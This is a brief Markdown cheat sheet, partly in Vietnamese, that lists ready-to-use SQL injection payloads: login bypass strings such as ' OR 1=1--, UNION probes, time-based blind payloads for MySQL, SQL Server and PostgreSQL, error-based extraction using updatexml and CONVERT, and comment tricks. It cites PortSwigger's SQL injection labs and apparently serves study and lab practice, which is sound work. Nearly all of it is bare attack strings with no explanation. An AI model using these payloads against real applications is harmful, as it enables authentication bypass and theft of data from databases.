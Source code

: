 - **Bypass đăng nhập**
  - `' OR 1=1--`
  - `' OR 1=1#`
  - `' OR 'a'='a'--`
  - `" OR "a"="a"--`

- **Union-based SQLi**
  - `' UNION SELECT NULL--`
  - `' UNION SELECT NULL,NULL--`
  - `' UNION SELECT 1,2,3--`

- **Time-based Blind SQLi**
  - `' OR SLEEP(5)--` (MySQL)
  - `'; WAITFOR DELAY '0:0:5'--` (SQL Server)
  - `'||pg_sleep(5)--` (PostgreSQL)

- **Error-based SQLi**
  - `' AND 1=CONVERT(int, 'text')--` (SQL Server)
  - `' AND updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)--` (MySQL)
  - `' || (SELECT to_char(1/0))--` (Oracle)

- **Comment để bypass**
  - `--`
  - `#`
  - `/* ... */`
## Tài liệu tham khảo
 
1. [PortSwigger Web Security Academy – SQL Injection Labs](https://portswigger.net/web-security/sql-injection)  

